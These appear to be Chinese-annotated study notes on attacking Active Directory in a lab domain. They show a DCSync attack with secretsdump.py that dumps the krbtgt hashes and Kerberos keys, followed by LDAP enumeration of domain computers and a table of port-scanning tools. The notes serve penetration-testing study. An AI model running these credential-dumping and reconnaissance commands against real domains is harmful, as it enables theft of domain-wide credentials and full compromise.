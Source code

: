 DCSync攻击时要注意，如果在大的域中请求所有凭证DC会崩内存

```bash
###DCSync attack with secretsdump to retrieve krbtgt credentials
$ secretsdump.py 'contoso.local/Administrator@192.168.100.2' -just-dc-user krbtgt
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fe8b03404a4975e7226caf6162cfccba:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:5249e3cf829c979959286c0ee145b7e6b8b8589287bea3c83dd5c9488c40f162
krbtgt:aes128-cts-hmac-sha1-96:a268f61e103134bb7e975a146ed1f506
krbtgt:des-cbc-md5:0e6d79d66b4951cd
[*] Cleaning up...
```

## **Windows computers**

### **Windows computers discovery**

首先，万一有凭证，用[LDAP](https://zer1t0.gitlab.io/posts/attacking_ad/#ldap)  [query the domain database](https://zer1t0.gitlab.io/posts/attacking_ad/#how-to-query-the-database)，能查计算机名字甚至系统

```powershell
~$ ldapsearch -H ldap://192.168.100.2 -x -LLL -W -D "anakin@contoso.local" -b "dc=contoso,dc=local" "(objectclass=computer)" "DNSHostName" "OperatingSystem"
Enter LDAP Password: 
dn: CN=DC01,OU=Domain Controllers,DC=contoso,DC=local
operatingSystem: Windows Server 2019 Standard Evaluation
dNSHostName: dc01.contoso.local

dn: CN=WS01-10,CN=Computers,DC=contoso,DC=local
operatingSystem: Windows 10 Enterprise
dNSHostName: ws01-10.contoso.local

dn: CN=WS02-7,CN=Computers,DC=contoso,DC=local
operatingSystem: Windows 7 Professional
dNSHostName: WS02-7.contoso.local

dn: CN=SRV01,CN=Computers,DC=contoso,DC=local
operatingSystem: Windows Server 2019 Standard Evaluation
dNSHostName: srv01.contoso.local
```

**没凭证的话**，扫描，win电脑有几个默认打开的端口而且在域环境中一般不会被防火墙保护

| 137（[NetBIOS   name service](https://zer1t0.gitlab.io/posts/attacking_ad/#netbios-name-service)） | [nbtscan](http://www.unixwiz.net/tools/nbtscan.html) or nmap [nbtstat](https://nmap.org/nsedoc/scripts/nbstat.html) script 来扫 |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| 445  （[SMB](https://zer1t0.gitlab.io/posts/attacking_ad/#smb)） | [ntlm-info](https://github.com/Zer1t0/ntlm-info) or nmap [smb-os-discovery](https://nmap.org/nsedoc/scripts/smb-os-discovery.html) script. |
| 135（[RCP](https://zer1t0.gitlab.io/posts/attacking_ad/#rcp)）、139  ([NetBIOS session service](https://zer1t0.gitlab.io/posts/attacking_ad/#netbios-session-service)) | nmap                                                         |

